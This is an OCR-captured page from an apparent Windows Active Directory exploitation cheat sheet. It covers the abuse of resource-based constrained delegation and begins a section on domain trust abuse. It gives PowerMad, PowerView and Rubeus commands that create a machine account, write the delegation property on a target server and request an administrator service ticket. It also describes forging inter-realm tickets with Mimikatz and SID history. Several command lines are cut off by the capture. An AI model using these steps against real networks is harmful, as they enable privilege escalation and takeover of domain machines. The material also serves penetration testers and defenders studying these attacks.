 request a forwardable ticket on behalf of the user However with
RBCD the KDC checks if the SPN for the requesting service i e
the frontend service is present in the msDSAllowedToActOnBehalfOfOtherIdentity property of the backend
service This means that the frontend service needs to have an
SPN set Thus attacks against RBC have to be performed from
either a service account with SPN or a machine account

Exploitation
If we compromise a frontend service that appears in the RBCD
property of a backend service exploitation is the same as with
constrained delegation above This is however not too common
A more often seen attack to RBCD is when we have
GenericWrite
GenericAll
WriteProperty or WriteDACL
permissions to a computer object in the domain This means we
can write the msDS-AllowedToActOnBehalfOfOtherIdentity
property on this machine account to add a controlled SPN or
machine account to be trusted for delegation We can even
create a new machine account and add it This allows us to
compromise the target machine in the context of any user as
with constrained delegation above

# Create a new machine account using PowerMad
New-MachineAccount -MachineAccount InconspicuousMachineA
# Get SID of our machine account and bake raw security d
$sid = Get-DomainComputer -Identity InconspicuousMachine
$SD = New-Object Security.AccessControl.RawSecurityDescr
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
# Use PowerView to use our GenericWrite (or similar) pri
Get-DomainComputer -Identity TargetSrv01 | Set-DomainObj
# Finally, use Rubeus to exploit RBCD to get a TGS as ad
.\Rubeus.exe s4u /user:InconspicuousMachineAccount$ /rc4

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

16/31

Abusing domain trust
Must be run with DA privileges

Using domain trust key
From the DC dump the hash of the
currentdomain\targetdomain$ trust account using Mimikatz
e g with LSADump or DCSync Then using this trust key and
the domain SIDs forge an inter realm TGT using Mimikatz adding
the SID for the target domain’s enterprise admins group to our
‘SID history’
